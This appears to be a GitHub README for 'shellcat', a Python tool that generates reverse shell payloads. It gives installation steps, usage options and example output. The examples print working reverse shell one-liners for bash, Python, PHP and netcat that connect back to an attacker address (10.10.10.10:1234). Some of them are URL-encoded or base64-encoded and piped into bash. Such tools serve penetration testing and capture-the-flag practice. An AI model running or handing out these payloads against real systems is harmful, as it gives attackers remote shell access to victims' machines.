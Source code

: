 # shellcat

shellcat is a python tool for generating reverse shell payloads. It supports a variety of shell types, including bash, python, php, powershell, and more. It also provides options for URL encoding, Base64 encoding, writing the payload to a file, and copying the payload to the clipboard.

## Installation
### Prerequisites
Before installing shellcat, make sure you have `xclip` installed on your system. This is necessary for clipboard functionality. You can install xclip using the following command:

```
sudo apt-get install xclip
```

### Installing Shellcat via pip
```
pip3 install shellcat
```
After installation, you can start using shellcat by simply typing `shellcat` in your terminal.

### Installation from GitHub Repository

Clone the repository:

```
git clone https://github.com/seriotonctf/shellcat.git
```

Navigate to the shellcat directory:

```
cd shellcat
```

Install the required Python packages:

```
pip3 install -r requirements.txt
```

## Usage

```
python3 shellcat.py <shell_type> <ip> <port> [options]
```

```
usage: shellcat.py [-h] [-e] [-b] [-w FILENAME] [-c] shell_type ip port

Generate reverse shell payload

positional arguments:
  shell_type                     Type of the shell (bash, python, php, nc, powershell, ...)
  ip                             IP address of the attacker
  port                           Port to listen on

options:
  -h, --help                     show this help message and exit
  -e, --encode                   URL encode the payload
  -b, --base64                   Base64 encode the payload
  -w FILENAME, --write FILENAME  Write the payload to a file
  -c, --copy                     Copy the payload to clipboard
```

## Examples

Generate a bash reverse shell payload:

```
➜  python shellcat.py bash 10.10.10.10 1234
[+] Payload: bash -i >& /dev/tcp/10.10.10.10/1234 0>&1
```

Generate a python reverse shell payload, URL encode it, and copy it to the clipboard:

```
➜  python shellcat.py python 10.10.10.10 1234 -e -c
[+] Payload: python3+-c+%27import+socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.10.10%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B+os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport+pty%3B+pty.spawn%28%22bash%22%29%27
```

Generate a php reverse shell payload, Base64 encode it, and write it to a file:

```
➜  python shellcat.py php 10.10.10.10 1234 -b -w shell.php
[+] Payload: echo cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjEwLjEwLjEwIiwxMjM0KTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOyc= | base64 -d | bash
[+] Payload written to shell.php
```

Generate a nc reverse shell payload, URL encode it, Base64 encode it, write it to a file, and copy it to the clipboard:

```
➜  python shellcat.py nc 10.10.10.10 1234 -e -b -w payload.txt -c
[+] Payload: echo bmMrLWUrJTJGYmluJTJGc2grMTAuMTAuMTAuMTArMTIzNA== | base64 -d | bash
[+] Payload written to payload.txt
```

Generate a PowerShell reverse shell payload by passing the tun0 interface
```
➜  python3 shellcat.py powershell tun0 1234
[+] Payload: powershell -ec BASE64_ENCODED_PAYLOAD
```
